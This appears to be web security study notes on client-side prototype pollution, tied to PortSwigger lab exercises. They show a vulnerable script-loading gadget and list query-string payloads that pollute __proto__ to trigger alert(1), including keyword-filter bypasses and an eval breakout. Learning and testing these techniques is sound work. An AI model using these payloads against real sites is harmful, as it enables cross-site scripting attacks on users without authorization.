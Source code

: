 ```javascript
if(config.transport_url) { 
let script = document.createElement('script');
script.src = config.transport_url;
document.body.appendChild(script);
}
```

To craft an exploit, use the source identified in the first step and attempt to pollute the "transport_url" property:

- `/?__proto__.transport_url=data:,alert(1);`
- `/?__proto__[transport_url]=data:,alert(1);`

For other scenarios, the client-side code may have some extra protections that are flawed, such as removing key words but not doing it recursively. Some payloads to bypass this validation include:

- `/?__pro__proto__to__[transport_url]=data:,alert(1);`
- `/?__pro__proto__to__.transport_url=data:,alert(1);`
- `/?constconstructorructor.[protoprototypetype][transport_url]=data:,alert(1);`
- `/?constconstructorructor.protoprototypetype.transport_url=data:,alert(1);`

Another scenario may be that the app is using the user input within an eval() function. To trigger an XSS vulnerability, it is required "break" out of the context (use hyphens):

- Example payload: `?__proto__.sequence=-alert(1)-`
# Client-Side Prototype Pollution - Third-Party Libraries

Use DOM Invader to exploit these scenarios as it will save a lot of time. DOM Invader is straight forward to use. Look at the solution for the following lab to learn more about it - [https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-client-side-prototype-pollution-in-third-party-libraries](https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-client-side-prototype-pollution-in-third-party-libraries)
# Client-Side Prototype Pollution - Browser APIs

Identify a prototype pollution source by injecting an arbitrary property via a query string and determine if it has polluted the Object prototype.

- `/?__proto__.foo=bar`
- `/?__proto__[foo]=bar`

Type the following in the browser console and see if the Object has been polluted:

- `Object.prototype`

Identify a gadget by looking through the client-side source code and identify if there is an Object using a property in an insecure way. For example, the code is using the method Object.defineProperty() to define the property "transport_url", however, the "value" descriptor which is used to define the value associated with the property is not being defined:

```javascript
Object.defineProperty(config, 'transport_url', {
	configurable: false,
	writable: false
	// missing -> value: "test"
});
```

